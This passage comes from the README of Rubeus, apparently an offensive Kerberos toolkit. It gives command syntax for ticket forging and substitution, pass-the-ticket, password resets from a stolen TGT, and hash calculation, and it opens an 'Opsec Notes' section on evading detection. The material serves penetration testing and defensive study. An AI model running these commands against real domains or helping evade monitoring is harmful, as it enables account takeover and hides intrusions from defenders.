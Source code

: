      Miscellaneous:

        Create a hidden program (unless /show is passed) with random /netonly credentials, displaying the PID and LUID:
            Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" [/show] [/ticket:BASE64 | /ticket:FILE.KIRBI]

        Reset a user's password from a supplied TGT (AoratoPw):
            Rubeus.exe changepw </ticket:BASE64 | /ticket:FILE.KIRBI> /new:PASSWORD [/dc:DOMAIN_CONTROLLER] [/targetuser:DOMAIN\USERNAME]

        Calculate rc4_hmac, aes128_cts_hmac_sha1, aes256_cts_hmac_sha1, and des_cbc_md5 hashes:
            Rubeus.exe hash /password:X [/user:USER] [/domain:DOMAIN]

        Substitute an sname or SPN into an existing service ticket:
            Rubeus.exe tgssub </ticket:BASE64 | /ticket:FILE.KIRBI> /altservice:ldap [/srealm:DOMAIN] [/ptt] [/luid] [/nowrap]
            Rubeus.exe tgssub </ticket:BASE64 | /ticket:FILE.KIRBI> /altservice:cifs/computer.domain.com [/srealm:DOMAIN] [/ptt] [/luid] [/nowrap]

        Display the current user's LUID:
            Rubeus.exe currentluid

        Display information about the (current) or (target) logon session, default all readable:
            Rubeus.exe logonsession [/current] [/luid:X]

        The "/consoleoutfile:C:\FILE.txt" argument redirects all console output to the file specified.

        The "/nowrap" flag prevents any base64 ticket blobs from being column wrapped for any function.

        The "/debug" flag outputs ASN.1 debugging information.
		
        Convert an AS-REP and a key to a Kirbi:
            Rubeus.exe asrep2kirbi /asrep:<BASE64 | FILEPATH> </key:BASE64 | /keyhex:HEXSTRING> [/enctype:DES|RC4|AES128|AES256] [/ptt] [/luid:X] [/nowrap]

        Insert new DES session key into a Kirbi:
            Rubeus.exe kirbi /kirbi:<BASE64 | FILEPATH> /sessionkey:SESSIONKEY /sessionetype:DES|RC4|AES128|AES256 [/ptt] [/luid:X] [outfile:FILENAME] [/nowrap]


     NOTE: Base64 ticket blobs can be decoded with :

        [IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("aa..."))


### Opsec Notes

This section covers some notes on the operational security of using Rubeus in an environment, with some technical examples comparing/contrasting some of its approaches to Mimikatz. The material here will be expanded in the future.

#### Overview

Any action you perform on a system is a detectable risk, especially when abusing functionality in "weird"/unintended ways. Rubeus (like any attacker toolset) can be detected in a number of methods, either from the host, network, or domain perspectives. I have a workmate who is fond of stating _"everything is stealthy until someone is looking for it"_ - tools and techniques generally evade detection because either a) people are not sufficiently aware of the tool/technique and therefore not even looking, b) people can not collect and process the data needed at the appropriate scale, or c) the tool/technique blends with existing behavior to sufficiently sneak in with false positives in an environment. There is much more information on these steps and detection subversion in general in [Matt Graeber](https://twitter.com/mattifestation) and [Lee Christensen](https://twitter.com/tifkin_)’s Black Hat USA 2018 [“Subverting Sysmon”](https://i.blackhat.com/us-18/Wed-August-8/us-18-Graeber-Subverting-Sysmon-Application-Of-A-Formalized-Security-Product-Evasion-Methodology.pdf) talk and associated [whitepaper](https://specterops.io/assets/resources/Subverting_Sysmon.pdf).
